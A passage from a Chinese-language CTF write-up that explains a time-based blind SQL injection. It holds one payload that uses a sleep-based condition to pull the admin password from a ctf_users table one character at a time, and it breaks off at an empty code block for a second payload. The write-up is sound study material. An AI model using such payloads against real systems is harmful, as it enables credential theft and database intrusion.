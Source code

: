 #### 基于盲注
&emsp;&emsp;所以我们可以构造这样的payload：
```
signature=1`,if(ascii(substr((select password from ctf_users where username=0x61646d696e),2,1))=53,sleep(3),0))#&mood=0
```
<div align="center">
    <img src="/images/posts/n1ctf/35.png" width="60%" />  
</div>
&emsp;&emsp;注意，`0x61646d696e`是`admin`的16进制编码，而且这里不能直接比较字符如`substr()>'a'`。如果注入成功则会延迟三秒返回页面。

&emsp;&emsp;后来看writeup的时候发现了另一种有意思的注入方式，他通过反序列化控制了`ip`的值，然后通过返回不同的国家判断注入结果，其payload如下：
```
```